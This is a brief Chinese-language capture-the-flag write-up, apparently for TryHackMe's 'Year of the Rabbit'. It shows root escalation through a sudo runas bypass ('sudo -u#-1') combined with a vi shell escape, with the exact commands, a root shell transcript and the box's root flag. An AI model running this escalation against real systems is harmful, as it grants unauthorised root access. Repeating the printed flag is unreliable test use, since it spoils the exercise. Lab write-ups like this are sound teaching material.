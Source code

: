 关于```(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt```这条命令，
All表示本账号可以用任何人的身份运行这条命令
!root表示本账号不是root账号

此时如果我们用```sudo -u# -1```即可使用```root```权限运行这条命令，因为-u# -1返回的是一个0值，也就是root的id值

以上参考[这篇文章](https://www.exploit-db.com/exploits/47502)

按照[gtfobins](https://gtfobins.github.io/gtfobins/vi/)里vi提权的方法，
1，我们可以先用vi命令打开这个文件

```sudo -u# -1 /usr/bin/vi /home/gwendoline/user.txt```
2，输入
```
:set shell=/bin/sh
```
3,输入
```
:shell
```

即可提升到root权限

```
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ sudo -u# -1 /usr/bin/vi /home/gwendoline/user.txt

#  id
uid=0(root) gid=0(root) groups=0(root)
#  cat /root/root.txt
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
#  
```